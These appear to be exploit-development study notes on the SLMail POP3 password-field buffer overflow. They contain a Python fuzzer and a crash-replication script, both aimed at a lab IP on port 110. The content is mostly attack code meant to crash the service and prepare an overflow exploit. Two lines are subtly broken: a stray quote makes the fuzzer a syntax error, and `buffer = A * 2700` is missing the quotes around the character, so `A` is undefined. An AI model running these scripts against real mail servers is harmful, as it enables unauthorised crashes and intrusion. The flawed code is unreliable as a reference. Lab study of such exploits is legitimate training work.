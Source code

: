 1. look at source code
2. identify input points and send malformed data known as fuzzing
3. reverse engineering techniques

### Fuzzing

pop3-pass-fuzz.py

```python
#!/usr/bin/python
import socket

# Create an array of buffers, while incrementing them.

buffer=["A"]
counter=100
while len(buffer) <=30:
  buffer.append("A"*counter)
  counter=counter+200

# Each one of these buffers is a password with varying lengths
for string in buffer:
  print "Fuzzing PASS with %s bytes" % len(string)
  s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  connect=s.connect(('192.168.30.35',110))
  s.recv(1024)
  s.send('USER test\r\n'')
  s.recv(1024)
  s.send('PASS ' + string + '\r\n')
  s.send('QUIT\r\n')
  s.close()

```

### Crash Replication

About 2700 bytes causes overflow for SLMail

slmail-pop3.py

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = A * 2700

try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```
